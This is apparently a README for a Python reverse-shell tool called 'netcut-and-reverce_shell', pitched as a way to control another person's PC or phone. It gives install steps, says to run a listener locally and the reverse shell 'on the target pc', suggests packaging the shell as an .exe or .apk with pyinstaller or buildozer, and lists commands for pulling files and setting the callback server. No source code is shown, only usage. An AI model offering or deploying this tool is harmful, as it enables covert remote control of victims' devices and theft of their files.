 # netcut-and-reverce_shell
Controlling othe pc or phone with python
__________________________________
[#] install:<br>
       ~$git clone https://github.com/omer-devil/netcut-and-reverce_shell/tree/main<br>
       and move to the project directory:
             ~$cd netcut-and-reverce_shellh
       now install the requirements.
             ~$pip3 install -r requirements.txt
       
___________________________________
[#] how to use:
       first run Net-Cat on your computer:
               ~$python3 netcat.py
       then run reverce_shell on the target pc
               ~$python3 reverce_shell.py
       and then you get access to the target pc or phone
       note:-you can conver reverce_shell.py into .exe file or .apk file
            to conver it to .exe use pyinstaller and
            for .apk use buildozer
     
[#] all the command available with use and example:
    Commands.                 Use.                                  Example
    l-host.                   local-host <command>                  local-host ls
    download.                 download <file name>                  download music.mp4
    server.                   server <IP:PORT>                      server 127.0.0.1:468
    target-ip.                target-ip                             it shows the target ip
    output_save.              output_save <True/False>              output_seve True or output_save False
    
    help.                     shows this help message
